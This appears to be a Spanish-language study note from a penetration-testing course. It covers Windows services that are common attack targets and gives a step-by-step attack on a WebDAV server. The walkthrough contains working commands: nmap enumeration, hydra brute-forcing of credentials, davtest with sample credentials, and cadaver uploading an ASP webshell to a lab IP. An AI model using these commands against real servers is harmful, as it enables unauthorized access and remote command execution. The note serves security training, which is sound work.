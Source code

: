 13-02-2025 19:22
Status: #idea
Tags: [[Assesment Methodologies]]


- [[#Windows|Windows]]
	- [[#Windows#Servicios comunes a exploits|Servicios comunes a exploits]]


# Vulnerability Assessment

Esta sección nos mostrará el proceso de identificar, analizar y priorizar vulnerabilidades en sistemas, redes y aplicaciones. Su objetivo será detectar las posibles debilidades de seguridad antes de que un atacante pueda explotarlas.

En esta etapa, nos encargaremos de identificar las vulnerabilidades, pero no de explotarlas, por lo tanto, usaremos herramientas como Nessus, o MSF.


## Windows

En Windows podremos ver vulnerabilidades como:

- Information disclosure.
- Buffer Overflows.
- Remote Code Execution (RCE).
- Privilege Escalation.
- Denial of Service (DOS).

### Servicios comunes a exploits

Windows de por si tiene varios servicios nativos y diversos protocolos que se ejecutan por defecto.

Estos servicios proporcionan al atacante un vector de ataque que se podría usar para comprometer un equipo.

Aquí tenemos algunos servicios comunes a exploits:

- **Microsoft ISS** (Internet Information Services): 
	- Puerto 80/443. 
	- Es un servidor web que ha desarrollado Microsoft.

- **WebDAV** (Web Distributed Authoring & Versioning):
	- Puerto 80/443.
	- Es una extensión HTTP que permite a los clientes actualizar, borrar, mover o copiar ficheros en un servidor web.

- **SMB/CIFS** (Server Message Block Protocol): 
	- Puerto 445.
	- Es un protocolo para compartir ficheros a través de una red.

- **RDP** (Remote Desktop Protocol):
	- Puerto 3389.
	- Protocolo GUI propietario de Windows para acceder a equipos de manera remota.

- **WinRM** (Windows Remote Management Protocol):
	- Puerto 5986/443.
	- Es un protocolo que permite gestionar equipos de manera remota. Funciona a través de la red y permite ejecutar comandos, administrar servicios, y obtener información del sistema.


### Exploiting WebDAV

El primer paso para exploitear WebDAV será identificar si WebDAV está configurado en el servidor ISS.

Después, podremos hacer un ataque bruteforce para obtener credenciales válidas que nos permitan autenticarnos. Este último paso nos permitirá subir un fichero .asp maligno, que nos permitirá ejecutar comandos o iniciar una reverse shell en el objetivo.

#### Herramientas

- **davtest**: Se usa para escanear, autenticar y exploitear servidores WebDAV. Viene preinstalado en Kali y Parrot OS.

- **cadaver**: Cadaver nos permitirá subir, descargar, ver y editar ficheros, además de manipulación de propiedades, namespaces, colecciones, etc. Viene preinstalado en Kali y Parrot OS también.

#### Demostración

##### Enumeración

Para empezar, tendremos que enumerar si nuestro objetivo tiene WebDAV funcionando, para eso podremos usar nmap y escanear los puertos de este.

```bash
nmap -sV -sC 10.10.10.10
```

Con esto podremos confirmar si está WebDAV funcionando.

Para obtener más información, podremos usar el script de nmap **http-enum** de la siguiente manera:

```bash
nmap -sV -p 80 --script=http-enum
```

Este script nos dará normalmente la carpeta donde se encuentra la instalación de WebDAV.

##### Bruteforcing

Podremos usar hydra para esto, proporcionando una wordlist para los usuarios y otra para las contraseñas:

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.10.10.10 http-get /webdav/
```

##### Exploiting

Podremos usar **davtest**, y **cadaver** como hemos comentado anteriormente para subir ficheros y conseguir vulnerar el target.

```bash
davtest -auth bob:password_123321 -url http://10.10.10.10/webdav
```

Posteriormente, davtest nos dará una lista de ficheros que se pueden subir al servidor, y que se podrían ejecutar, mostrándonos así las extensiones que se pueden ejecutar.

Una vez que sepamos esto, podremos usar cadaver para vulnerar el objetivo:

```shell
cadaver http://10.10.10.10/webdav
```

Nos pedirá las credenciales, y posteriormente vemos como tenemos una shell que nos permitirá subir ficheros y hacer operaciones básicas.

Buscaremos shells que vengan en Kali por defecto en la ruta **/usr/share/webshells** adaptadas a la extensión que se pueda ejecutar en el servidor WebDAV.

Con este comando podremos subir el shell al servidor WebDAV:

```shell
put /usr/share/webshells/asp/webshell.asp
```

En el caso de que sea asp, si ejecutamos el shell en el servidor, veremos como nos da un input en el que podemos pasar los comandos que queramos, y nos mostrará su respuesta.


---
# Backlinks

```dataview
LIST
FROM [[]]
SORT file.name ASC
```
